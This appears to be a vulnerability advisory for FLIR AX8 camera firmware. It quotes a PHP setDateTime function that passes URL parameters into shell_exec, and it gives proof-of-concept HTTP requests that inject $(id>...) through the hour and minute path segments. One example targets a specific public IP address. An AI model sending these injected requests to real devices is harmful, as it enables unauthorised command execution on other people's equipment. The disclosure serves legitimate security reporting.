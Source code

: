 # `$hour` parameter in the file `settingsregional.php ` has a Remote Command Injection

### Description

In FLIR AX8 up to 1.46.16, The  parameter **$hour** in `setDataTime` function in the file `\usr\www\application\models\settingsregional.php`  has a Remote Command Injection vulnerablilty .

`\usr\www\application\models\settingsregional.php`

```php
public function setDateTime($year, $month, $day, $hour, $minute)
{
    shell_exec(sprintf('timedatectl set-time "%s-%s-%s %s:%s"',
        $year,
        $month,
        $day,
        $hour,
        $minute
    ));
}
```

### POC

```
POST /settings/setDateTime/2024/1/22/10$(id>test.txt)/12 HTTP/1.1
Host: XXXXXXX
```

### Example 

```
POST /settings/setDateTime/2025/3/15/10/11$(id>test32.txt) HTTP/1.1
Host: 222.103.211.89:8004
```

![image-20250317211558890](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172115142.png)

![image-20250317205454041](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172116920.png)